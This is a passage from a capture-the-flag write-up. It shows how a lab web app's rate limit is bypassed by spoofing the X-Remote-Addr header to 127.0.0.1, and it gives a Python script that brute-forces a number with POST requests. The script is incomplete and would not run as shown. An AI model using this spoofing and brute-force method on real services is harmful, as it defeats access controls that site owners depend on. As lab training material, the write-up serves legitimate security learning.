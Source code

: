 Let's check [HackTricks - Rate Limit Bypass](https://book.hacktricks.xyz/pentesting-web/rate-limit-bypass) to change our IP origin using a HTTP header.

I observed that by adding `X-Remote-Addr: 127.0.0.1` the `X-RateLimit-xxx` headers were removed from the answer.

Then , Since burpSuite intruder is slow (I don't have the pro version) .I created a python script that send post requests to the web server .

here is the script :

```python
import requests
import sys

url = "http://<you-machine-ip>:8085/" //change here
expression = "Oh no! How unlucky. Spin the wheel and try again"

def brute(number):
	data = {'number':number, }
	r = requests.post(url,data=data , headers = {"X-Remote-Addr": "127.0.0.1"})
	if expression not in r.content :
		print "[+] Correct number Found: ",number
		sys.exit()
	else:
		print "[+] try number : ",number
		


def main():
	words = [w.strip() for w in open("wordlist.txt", "rb").readlines()] #parse wordlist
	for payload in words:
		brute(payload)

if __name__ == '__main__':

```

**Note**: that script should be in the same location as the wordlist.txt file .

![image-20210126154711207](Sustah_writeup.assets/image-20210126154711207.png)

